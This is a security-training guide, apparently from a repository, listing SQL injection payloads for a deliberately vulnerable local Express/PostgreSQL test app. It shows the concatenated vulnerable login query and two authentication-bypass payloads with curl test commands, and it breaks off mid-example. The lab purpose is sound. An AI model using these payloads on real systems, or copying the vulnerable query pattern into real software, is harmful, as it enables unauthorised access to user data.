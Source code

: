 # SQL Injection Payloads for Testing Vulnerable Webapp

**Warning**: These SQL injection payloads are for educational purposes only and must be used in a controlled, isolated testing environment (e.g., the local `webapp_security_test` database). Never use them on production systems or systems you do not own, as SQL injection is illegal and unethical without explicit permission.

This document lists SQL injection payloads targeting the vulnerable Node.js/Express backend API and React frontend described in the provided code. The backend uses string concatenation for SQL queries, making it susceptible to injection attacks. Each payload includes its purpose, effect, and testing instructions.

## Setup
- **Backend**: Ensure the Express server (`index.js`) is running on `http://localhost:3000` with the PostgreSQL database (`postgres`) populated using the provided SQL script.
- **Frontend**: Run the Vite React app on `http://localhost:3001` (as configured in `vite.config.js`).
- **Database**: The schema includes tables like `users`, `user_profiles`, `products`, `orders`, `admin_settings`, and a `user_summary` view.

## Payloads by Endpoint

### 1. Login Endpoint (`POST /api/login`)
- **Input Fields**: `username`, `password` (JSON body)
- **Vulnerable Query**: `SELECT * FROM users WHERE username = '${username}' AND password_hash = '${password}'`
- **Goal**: Bypass authentication or extract data.

#### Payload 1: Bypass Authentication (Classic OR 1=1)
- **Username**: `admin' OR '1'='1`
- **Password**: `anything`
- **Resulting Query**: `SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password_hash = 'anything'`
- **Effect**: The `OR '1'='1'` makes the condition always true, potentially logging in as the first user (e.g., `admin`).
- **How to Test**:
  1. Open the frontend at `http://localhost:3001`.
  2. In the "Login" form, enter the payload in the `username` field and any value in the `password` field.
  3. Click "Login" and check the message (e.g., `Logged in as admin`).
  4. Alternatively, use `curl`:
     ```bash
     curl -X POST -H "Content-Type: application/json" -d '{"username":"admin'\'' OR '\''1'\''='\''1","password":"anything"}' http://localhost:3000/api/login
     ```
  5. Verify the response contains user data (e.g., `{"success":true,"user":{"username":"admin",...}}`).

#### Payload 2: Bypass Authentication (Comment Out Password Check)
- **Username**: `admin' -- `
- **Password**: `anything`
- **Resulting Query**: `SELECT * FROM users WHERE username = 'admin' -- ' AND password_hash = 'anything'`
- **Effect**: The `--` comments out the password check, allowing login without a valid password.
- **How to Test**:
  1. In the frontend login form, enter `admin' -- ` as the username and any password.
  2. Click "Login" and check for a successful login message.
  3. Use `curl`:
     ```bash